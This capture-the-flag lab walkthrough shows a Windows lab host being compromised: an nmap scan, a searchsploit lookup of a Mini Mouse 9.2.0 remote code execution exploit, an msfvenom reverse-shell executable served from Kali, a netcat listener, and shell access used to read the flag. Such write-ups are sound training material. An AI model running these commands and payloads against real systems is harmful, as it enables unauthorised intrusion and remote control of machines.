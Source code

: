 # 0. Sources

|||
|---|---|
|[YouTube](https://www.youtube.com/watch?v=MD5GIbatPg8)|[Download](https://drive.google.com/file/d/1K5_YA76DVtICHst2FlLVjq68dgNkMgRX/view)|

# 1. nmap scan

```console
┌──(root㉿kali)-[~]
└─$ nmap -p- -A 10.0.88.33
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-27 10:40 +08
Nmap scan report for 10.0.88.33
Host is up (0.017s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows 10 Pro 14393 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=mousekatoo
| Not valid before: 2022-11-26T02:39:44
|_Not valid after:  2023-05-28T02:39:44
|_ssl-date: 2022-11-27T02:42:53+00:00; 0s from scanner time.
| rdp-ntlm-info:
|   Target_Name: MOUSEKATOO
|   NetBIOS_Domain_Name: MOUSEKATOO
|   NetBIOS_Computer_Name: MOUSEKATOO
|   DNS_Domain_Name: mousekatoo
|   DNS_Computer_Name: mousekatoo
|   Product_Version: 10.0.14393
|_  System_Time: 2022-11-27T02:42:39+00:00
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8039/tcp  open  unknown
| fingerprint-strings:
|   FourOhFourRequest, GetRequest, HTTPOptions, RTSPRequest, SIPOptions:
|     HTTP/1.1 404 OK
|     Server: bruce_wy/1.0.0
|     Access-Control-Allow-Methods: POST,GET,TRACE,OPTIONS
|     Access-Control-Allow-Headers: Content-Type,Origin,Accept
|     Access-Control-Allow-Origin: *
|     Access-Control-Allow-Credentials: true
|     P3P: CP=CAO PSA OUR
|     Content-Type: text/html
|     Content-Range: bytes 0-0/-1
|_    Content-Length : 4294967295
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
⋮
Host script results:
| smb2-time:
|   date: 2022-11-27T02:42:42
|_  start_date: 2022-11-27T02:39:44
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required
|_clock-skew: mean: 1h36m00s, deviation: 3h34m41s, median: 0s
| smb-os-discovery:
|   OS: Windows 10 Pro 14393 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: mousekatoo
|   NetBIOS computer name: MOUSEKATOO\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-11-26T18:42:43-08:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 145.22 seconds
```

# 2. Checking for exploits

Port `8039` returned HTTP data

Searching for the `Server: bruce_wy/1.0.0` information on google leads us to a [Mini Mouse 9.2.0 Path Traversal exploit](https://www.exploit-db.com/exploits/49744)

Path traversal isn't exactly useful, let's search if there are more `mini mouse` exploits

```console
┌──(root㉿kali)-[~]
└─$ searchsploit mini mouse
-------------------------------------------- ---------------------------------
 Exploit Title                              |  Path
-------------------------------------------- ---------------------------------
Mini Mouse 9.2.0 - Path Traversal           | windows/webapps/49744.txt
Mini Mouse 9.2.0 - Remote Code Execution    | windows/webapps/49743.py
Mini Mouse 9.3.0 - Local File inclusion     | ios/webapps/49747.txt
-------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The RCE exploit looks interesting, let's try that

☝️ A faster method is to google for `8039 site:www.exploit-db.com`, which will also return the Mini Mouse RCE exploit as a result

# 3. Targeting the Mini Mouse service

Aanalyzing the exploit code shows that it executes a selected payload:

```console
┌──(root㉿kali)-[~]
└─$ searchsploit -m 49743
  Exploit: Mini Mouse 9.2.0 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49743
     Path: /usr/share/exploitdb/exploits/windows/webapps/49743.py
File Type: Python script, ASCII text executable

Copied to: /home/kali/49743.py

┌──(root㉿kali)-[~]
└─$ cat 49743.py
⋮
ip = input("target's ip:  ")
lhost = input("local http server ip: ")
name = input("payload file name: ")
url = "http://{}:8039/op=command".format(ip)
⋮
```

# 4. Getting a shell

Generate reverse shell executable and setup web server endpoint on Kali:

(Apache2 is already running with DocumentRoot at `/var/www/html`)

```console
┌──(root㉿kali)-[~]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o /var/www/html/reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/reverse.exe

Open another console window on Kali to listen for connections:

```console
┌──(root㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
```

Run the exploit and get our shell:

```console
┌──(root㉿kali)-[~]
└─$ python3 49743.py
Traceback (most recent call last):
  File "/home/kali/49743.py", line 12, in <module>
    import jsonargparse
ModuleNotFoundError: No module named 'jsonargparse'

┌──(root㉿kali)-[~]
└─$ pip install jsonargparse
Defaulting to user installation because normal site-packages is not writeable
Collecting jsonargparse
  Downloading jsonargparse-4.17.0-py3-none-any.whl (165 kB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 165.3/165.3 kB 6.3 MB/s eta 0:00:00
Requirement already satisfied: PyYAML>=3.13 in /usr/lib/python3/dist-packages (from jsonargparse) (5.4.1)
Installing collected packages: jsonargparse
Successfully installed jsonargparse-4.17.0

┌──(root㉿kali)-[~]
└─$ python3 49743.py
target's ip:  10.0.88.33
local http server ip: kali.vx
payload file name: reverse.exe
[+] Retrieving payload
200
[+] got shell!
```

Verify that the reverse shell has hooked on from the listener console

```cmd
connect to [192.168.17.10] from (UNKNOWN) [10.0.88.51] 49786
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Mini Mouse>whoami
whoami
mousekatoo\mickey
```

Excellent, we now have shell on the target

# 5. Getting the proof

Since we know that the proof is a file on the user's desktop, let's get straight to it

```cmd
C:\Program Files (x86)\Mini Mouse>cd %USERPROFILE%
cd %USERPROFILE%

C:\Users\Mickey>dir /s *flag.txt*
dir /s *flag.txt*
 Volume in drive C has no label.
 Volume Serial Number is DA18-B95C

 Directory of C:\Users\Mickey\AppData\Roaming\Microsoft\Windows\Recent

09/14/2021  10:46 PM               632 flag.txt.lnk
               1 File(s)            632 bytes

 Directory of C:\Users\Mickey\Desktop

09/14/2021  10:48 PM                73 flag.txt.txt
               1 File(s)             73 bytes

     Total Files Listed:
               2 File(s)            705 bytes
               0 Dir(s)  42,366,476,288 bytes free

C:\Users\Mickey>type Desktop\flag.txt.txt
type Desktop\flag.txt.txt
the more you hack, the better you become

- i.t security labs (youtube)
```
